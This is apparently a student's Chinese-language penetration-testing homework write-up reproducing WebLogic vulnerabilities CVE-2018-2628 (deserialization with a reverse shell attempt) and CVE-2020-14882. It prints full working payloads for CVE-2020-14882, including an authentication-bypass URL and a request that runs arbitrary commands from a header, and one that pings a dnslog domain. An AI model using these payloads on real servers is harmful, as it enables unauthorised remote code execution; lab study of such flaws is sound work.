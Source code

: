 # 渗透作业 

## 多的几种方法

### 分别是CVE-2018-2628 CVE-2017-10271 CVE-2020-14882 CVE-2021-2109

#### 我只完成了CVE-2018-2628 CVE-2020-14882 剩下的CVE我觉得现在的我去完成也没太大意义了...还不如去补基础



## CVE-2018-2628

利用Java的反序列化，因为该漏洞需要利用T3来完成，而开放weblogic的7001端口是一般会默认开启T3，我就发送一个在网上找好的T3协议数据，就可以完成渗透啦！

在本地开启监听，用ysoserial的JRMP对19111进行监听

![1I_V_HJ0_@_9PU96BXJJNLU.png](https://i.loli.net/2021/02/24/N4hP9f1HTwK3MFA.png)

我执行一个反弹shell的命令用了一个网上找的工具转化的

![~__OQL~E7P7V_D4M7@B1G~K.png](https://i.loli.net/2021/02/24/GR4BncW5SiAhHyL.png)

然后监听19110这个端口

![M5Y_686_H`LMA___~A~G5HW.png](https://i.loli.net/2021/02/24/Ied1NZ5BanWUOuh.png)

再用一个POC进行攻击

![WB_Q_3CS7_91EZZC__U`_~9.png](https://i.loli.net/2021/02/24/kVij8GB3Mdwr6cO.png)

#### POC：https://www.exploit-db.com/exploits/44553



emmm，可能是我哪一步出问题了，没有直接反弹shell成功，不过在我之前的复现的时候是成功了的，我也不知道哪出问题了

#### CVE-2020-14882

这个就更简单了...直接抓包然后把poc放上去就完事了...

了解了一下该漏洞差不多就是构建一个特殊的HTTP GET 请求，然后执行代码

*结果差不多就是如下图*

![HNZR9@O0SCQ_~UL6RW_1~DP.png](https://i.loli.net/2021/02/24/3cBzVsAfFE8dq6n.png)

##### POC: 

这个有两个poc，但是第一个poc我没成功过，所以直接用的第二个poc

poc 1：

https://127.0.0.1//console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27ping *.dnslog.cn%27);%22)

在最后的两个%27的中间输入指令

poc 2：

 /console/css/%252e%252e%2fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();%27)

加在GET后面，然后就是需要输入一个cmd，里面写指令就行了

差不多这个只要抓包了，把poc放上去就可以成功了，不过需要注意的是抓包需要先绕过认证，直接未授权面板http://172.23.26.66:7001/console/images/%252E%252E%252Fconsole.portal

------

------

------

### 总结：感觉还是迷迷糊糊的，虽然做出来了，但是还是很多没搞懂的，还是要先把基础搞扎实了来，我完成的这两个CVE是稍微能看懂原理的，另外的就是原理一点都看不懂的了，这就滚去学！

### 学长晚安！